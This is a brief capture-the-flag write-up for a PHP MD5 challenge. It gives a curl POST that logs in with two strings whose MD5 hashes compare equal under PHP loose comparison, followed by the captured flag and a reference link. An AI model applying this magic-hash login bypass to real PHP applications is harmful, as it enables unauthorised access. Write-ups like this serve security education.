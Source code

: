 # NISRA - MD5_2
## Exploit
Payload: `curl http://chall2.nisra.net:41023/ -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "user=240610708&password=QNKCDZO"`
Flag: `NISRA{S3CuR17y_1ssuEs_Of_pHP_@ND_Md5}`
## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)